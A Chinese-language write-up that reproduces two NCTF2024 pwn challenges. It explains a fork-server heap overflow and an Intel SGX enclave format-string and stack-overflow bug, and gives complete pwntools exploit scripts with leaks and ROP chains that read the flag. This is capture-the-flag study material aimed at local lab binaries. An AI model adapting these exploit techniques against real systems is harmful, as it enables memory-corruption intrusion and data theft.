



# NCTF2024【复现】

注：由于本人实在太菜，因此没有做出任何题目，仅对所有赛题进行复现

## diary

是基于fork的server，因此不能采用system(/bin/sh);

**为什么交互式 Shell 会失败？**

- **文件描述符继承是关键：** 当孙子进程通过 `exec` 启动 `/bin/sh` 时，它**继承了创建它的进程（即原服务器子进程）的文件描述符**。
- **标准输入/输出/错误指向哪里？** 在典型的 `fork` 服务器子进程中，文件描述符 0 (标准输入 stdin), 1 (标准输出 stdout), 和 2 (标准错误 stderr) 通常都指向**子进程**用来与客户端通信的那个网络连接套接字 `conn_fd`。因为子进程是从父进程那里继承了这个 `conn_fd`，并且通常会用它来进行读写。
- 失败的原因：
  1. **`/bin/sh` 的感知：** 当 `/bin/sh` 启动时，它检查其标准输入输出。发现它们连接到一个套接字而不是一个终端(TTY/PTY)时，它可能不会进入完全的交互模式。
  2. **标准 I/O 缓冲：** 这是最常见的问题。当 `/bin/sh` (在孙子进程中) 向标准输出 (FD 1，指向 `conn_fd`) 写入数据时（比如命令提示符或命令执行结果），数据并不会立即通过网络发送。因为标准输出连接到套接字时，通常使用**全缓冲 (Full Buffering)**。数据会被暂存在内存缓冲区里，直到缓冲区满了，或者 `/bin/sh` 进程显式地刷新缓冲区（`fflush`）或退出时，数据才会被真正写入 `conn_fd` 发送出去。这就导致了交互的延迟或完全不响应。标准输入也可能存在类似问题。
  3. **子进程可能提前关闭 FD：** 在某些服务器逻辑下，子进程可能在处理完合法请求（或者发生错误）后、但在 `system()` 被非预期地调用之前，就已经关闭了 `conn_fd`。这样，即使孙子进程启动了 `/bin/sh`，它的输入输出也无处可去。
  4. **`system()` 本身的机制：** 如前所述，`system()` 通过 `sh -c` 执行命令，这主要是为了执行单个命令并获取结果，而不是为了启动一个持久的交互式会话。

***另外地\***，在orw途中，由于标准输入0、标准输出1、标准错误2都被绑定在socket上面，因此如果直接打印到fd=0、1、2我们无法看见，最终做法是write(4,flag,len);，为什么呢？

程序fork时，父进程中已使用的 FD 有 0, 1, 2 (标准流) 和 3 (`listen_fd`)。因此，`accept()` 返回的**新的连接套接字 `conn_fd`** 得到的编号是 **4**，而子程序关闭listen_fd，因此编号为3的fd就空出来了作为之后open(flag)的fd，而write写向fd=4即socket我们就可以得到flag



漏洞点在于malloc(len+1)



如果Len为0xffffffff的话malloc会malloc(0)，**而我们使用对应的Len进行堆溢出**

***堆地址：\***通过溢出一个0从而打印出堆地址。

***libc地址：\***通过申请一个0x2000000的堆块塞满bss和libc的地址，打印leak出libc

通过environ泄露栈地址，**environ是一个与栈有固定偏移的地址，可以绕过ASLR**

把chunk分配到栈，最后orw读取文件

```
┌──(kali㉿kali)-[~/Desktop/nctf]
└─$ cat exp       
from pwn import *
k = process('./pwn')
io = remote("127.0.0.1",9999)
libc = ELF('libc.so.6')
context(os='linux',arch='amd64')
def add(len,con):
    io.send(b'1')
    io.sendafter(b'Input length:\n',str(len).encode())
    io.sendlineafter(b'Input content:\n',con)
def dele(idx):
    io.send(b'2')
    io.sendafter(b'Input index:\n',str(idx).encode())
def edit(idx,con):
    io.send(b'3')
    io.sendafter(b'Input index:\n',str(idx).encode())
    io.sendlineafter(b'Input content:\n',con)
def show(idx):
    io.send(b'4')
    io.sendafter(b'Input index:\n',str(idx).encode())

add(0x80,b'a')
add(0xffffffff,b'\x00')
add(0x80,b'a')
add(0x80,b'a')
edit(1,b'a'*0x20)
show(2)
log.info("[*]overflow the \x00 to cover the pointer and then leak the address")
io.recvuntil(p64(0x21))
heap_base = u64(io.recv(8)) - 0x370
log.info("[*]heap addr : "+hex(heap_base))
dele(1)
add(0x2000000,b'a')
show(2)
io.recvuntil(p64(0x21))
libc_base = u64(io.recv(8)) - 0x7f6e3c800010 + 0x7f6e3ea00000
log.info("[*]libc addr : "+hex(libc_base))
environ = libc_base + 0x7f6e3ec0ad58 - 0x7f6e3ea00000
log.info("[*]envi addr : "+hex(environ))
dele(1)
add(0xffffffff,b'\x00')
edit(1,b'\x00'*0x18 + p64(0x21) + p64(environ) + p64(0x81))
show(2)
io.recvuntil(b'Content:\n')
stack_addr = u64(io.recv(8)) + 8 + 0x7ffd95677750 - 0x7ffd956779a8
log.info(hex(stack_addr)) 
#this stack addr is Menu function's ret addr
pop_rdi_ret = libc_base + 0x10f75b
pop_rsi_ret = libc_base + 0x10f759
#pop_rsi_pop_r12_ret
magic = libc_base + 0xb0133
#mov rdx,rbx; pop rbx; pop r12; pop rbp; retn
pop_rbx_ret = libc_base + 0x586e4
open = libc_base + libc.symbols['open']
write = libc_base + libc.symbols['write']
read = libc_base + libc.symbols['read']
edit(0,b'flag\x00\x00')
flag = heap_base + 0x2c0
ROP = p64(pop_rdi_ret) + p64(flag) + p64(pop_rsi_ret) + p64(0) + p64(0) + p64(open)
#OPEN_FUNC
ROP += p64(pop_rdi_ret) + p64(0x3) + p64(pop_rsi_ret) + p64(heap_base+0x50) + p64(0) + p64(pop_rbx_ret) + p64(0x30) + p64(magic) + p64(0x30) + p64(0) + p64(stack_addr+0x100) + p64(read)
ROP += p64(pop_rdi_ret) + p64(0x4) + p64(write)
print(hex(pop_rsi_ret))
edit(1,b'\x00'*0x18 + p64(0x21) + p64(stack_addr) + p64(0x101))
edit(2,ROP)
io.send(b'5')
io.interactive()
```
## unauthwarden-whoami

# 什么是intel sgx？
想象一下 SGX 是什么： 
把它想象成电脑 CPU 内部的一个“超级保险箱”（这叫做 Enclave，或者叫“飞地”）。 它可以阻止一切“外人”的使用和读写，这些“外人”包括操作系统、其他软件，甚至是能接触到电脑内存的黑客。
其于内核十分相似，都是定义了“安全区”和“不安全区”，但是其更加恐怖的一点是其使用硬件实现，断绝了更多hacker通过都内存实现getshell或者读取信息的操作，这在云计算这种你不太信任运行
环境的场景下特别有用。但是程序怎么用这个保险箱？ 普通的程序可以通过特定的入口点请求保险箱里的代码帮忙处理敏感事务（这叫 ECALL）。 保险箱里的代码处理完，有时也需要通过出口点请求
外面的程序帮忙做些普通工作（这叫 OCALL）。而下面这题的flag被存在Enclave的某个内存中，我们需要通过寻找ecall的漏洞让其将flag从“保险箱”内部打印出来。题目将一个动态链接库unauthw
arden.signed.so设置为飞地，因此漏洞多半在其内这题的漏洞点在于unauthwarden.signed.so中的ecall_print_username的fmt以及ecall_do_seal_send存在栈溢出

```
from pwn import *
env={'LD_LIBRARY_PATH': '/opt/intel/sgxsdk/lib64:$LD_LIBRARY_PATH'}
io = process('./test_app',env=env)
context(os = 'linux',arch = 'amd64',log_level='debug')
def register(usr,pwd):
    io.sendafter(b'>> ',b'2')
    io.sendafter(b'Enter username: ',usr)
    io.sendafter(b'Enter password: ',pwd)
def login(usr,pwd):
    io.sendafter(b'>> ',b'1')
    io.sendafter(b'Enter username: ',usr)
    io.sendafter(b'Enter password: ',pwd)
def add(usr,pwd):
    io.sendafter(b'>> ',b'1')
    io.sendafter(b'Enter username: ',usr)
    io.sendafter(b'Enter password: ',pwd)
def show(idx):
    io.recvuntil(b'>> ')
    io.send(b'2')
    io.sendafter(b'Enter record index (1-5): ',str(idx).encode())
def logout():
    io.recvuntil(b'>> ')
    io.send(b'6')
def send_seal(data):
    io.recvuntil(b'>> ')
    io.send(b'4')
    if io.recv(6) == b'Sealed':
        io.sendlineafter(b'to reject.\n', b'y')
    io.sendlineafter(b'to seal: ', str(len(data)).encode())
    for i in range(0, len(data), 0x100):
        io.sendafter(b'batch):', data[i: i + 0x100])
    io.sendlineafter(b'(y/n): ', 'y'.encode())
def show_seal():
    io.recvuntil(b'>> ')
    io.send(b'5')

register(b'%3$p',b'123')
login(b'%3$p',b'123')
io.recvuntil(b'back, ')
addr = int(io.recvuntil(b'\n',drop=True).decode(),16) - 0x2719f4
log.info(hex(addr))
#gdb.attach(io)
pop_rdi_ret = addr + 0x3e34
root_pwd = addr + 0x11c020
printf = addr + 0x10B3
ret = addr + 0x1052
gdb.attach(io)
send_seal(b'?' * 256 + b'!' * 0x8 + p64(pop_rdi_ret) + p64(root_pwd) + p64(ret) + p64(printf)+b'')

io.interactive() 
```


